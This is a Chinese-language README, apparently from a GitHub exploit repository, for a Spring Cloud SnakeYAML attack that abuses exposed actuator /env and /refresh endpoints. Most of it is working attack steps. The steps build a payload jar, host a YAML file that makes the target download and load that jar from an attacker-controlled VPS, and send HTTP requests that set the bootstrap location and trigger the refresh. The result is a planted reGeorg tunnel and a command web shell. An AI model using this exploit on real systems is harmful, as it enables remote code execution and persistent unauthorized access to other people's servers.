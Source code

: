 # README
Spring Cloud SnakeYAML 一键注册cmd shell和reGeorg

利用条件：
- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标依赖的 `spring-cloud-starter` 版本 < 1.3.0.RELEASE
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

仅在JDK1.8及Spring1.x测试通过,其他版本自测.

利用方法如下：
## 编译class文件然后打jar包
```bash
cd yaml-payload
javac src/artsploit/AwesomeScriptEngineFactory.java -cp ./lib
javac src/artsploit/Tunnel.java -cp ./lib
javac src/artsploit/GameInfo.java -cp ./lib
jar -cvf yaml-payload.jar -C src/ .
```

## 托管 yml 和 jar 文件
在自己控制的`vps`机器上开启一个简单`HTTP`服务器，端口尽量使用常见`HTTP`服务端口（80、443）

```bash
# 使用 python 快速开启 http server
python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在网站根目录下放置后缀为`yml`的文件`yaml-payload.yml`,内容如下:
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-vps-ip/yaml-payload.jar"]
  ]]
]
```

在网站根目录下放置打包好的`yaml-payload.jar`

## 设置`spring.cloud.bootstrap.location`属性

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/yaml-payload.yml
```

## 刷新配置

```
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

## 访问注入的shell
1. reGeorg: http://localhost:9092/api/v1/tunnel
2. cmd shell: http://localhost:9092/api/v1/game POST:code=whoami